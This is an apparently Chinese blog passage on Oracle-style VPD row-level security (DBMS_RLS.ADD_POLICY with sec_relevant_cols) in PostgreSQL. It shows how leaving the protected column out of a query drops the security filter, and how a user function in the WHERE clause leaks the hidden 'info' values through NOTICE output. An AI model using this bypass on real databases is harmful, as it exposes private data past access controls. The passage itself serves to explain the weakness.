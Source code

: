 ```  
  v_object_name VARCHAR2(30) := 't2';  
  v_policy_name VARCHAR2(30) := 's_t2';  
  v_function_schema VARCHAR2(30) := 'public';  
  v_policy_function VARCHAR2(30) := 'vpd1';  
  v_statement_types VARCHAR2(30) := 'SELECT,INSERT,UPDATE,DELETE';  
  v_update_check boolean := true;  
  v_sec_relevant_cols text := 'info';  -- 隐私列, 不加的话默认是所有列强制走vpd  
BEGIN  
DBMS_RLS.ADD_POLICY(  
v_object_schema,  
v_object_name,  
v_policy_name,  
v_function_schema,  
v_policy_function,  
v_statement_types,  
update_check => v_update_check,  
sec_relevant_cols => v_sec_relevant_cols  
);  
END;  
```  
  
当没有查询到隐私列时，是不会带上filter的，所以给攻击带来了希望  
  
```  
\c postgres digoal  
  
postgres=> explain select info from t2;        
                           QUERY PLAN                              
-----------------------------------------------------------------  
 Seq Scan on t2  (cost=0.00..24.50 rows=6 width=32)  
   Filter: ((info = 'digoal'::text) AND (info = 'digoal'::text))  
(2 rows)  
  
postgres=> explain select id,id2 from t2;  
                      QUERY PLAN                        
------------------------------------------------------  
 Seq Scan on t2  (cost=0.00..21.60 rows=1160 width=8)  
(1 row)  
```  
  
带上隐私列时，filter会自动加上.  
  
```  
postgres=> select * from t2;     
 id | info | id2   
----+------+-----  
(0 rows)  
```  
  
在查询中不包含隐私列时，攻击成功  
  
通过f函数已经成功的拿到了隐私列的内容  
  
```  
postgres=> select id,id2 from t2 where f(t2);  
NOTICE:  (1,test,0)  
NOTICE:  (2,test,1)  
NOTICE:  (3,test,2)  
NOTICE:  (4,test,2)  
 id | id2   
----+-----  
  1 |   0  
  2 |   1  
  3 |   2  
  4 |   2  
(4 rows)  
```  
  